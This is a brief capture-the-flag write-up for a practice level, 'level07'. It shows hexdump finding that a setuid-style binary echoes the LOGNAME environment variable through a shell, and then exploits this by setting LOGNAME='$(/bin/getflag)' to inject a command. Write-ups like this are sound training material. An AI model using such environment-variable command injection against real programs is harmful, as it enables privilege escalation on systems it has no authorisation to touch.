 ## We run ./level07

### It display : level07

## We check env variables and we remarks that LOGNAME=level07
## We want to see if LOGNAME is used into binary

### hexdump -C level07 | grep LOGNAME
### 00000680  4c 4f 47 4e 41 4d 45 00  2f 62 69 6e 2f 65 63 68  |LOGNAME./bin/ech|

## LOGNAME is just next to echo command, a system command is launch from binary file.
## So we change LOGNAME to try to run getflag by evaluating /bin/getflag

### export LOGNAME='$(/bin/getflag)' && ./level07
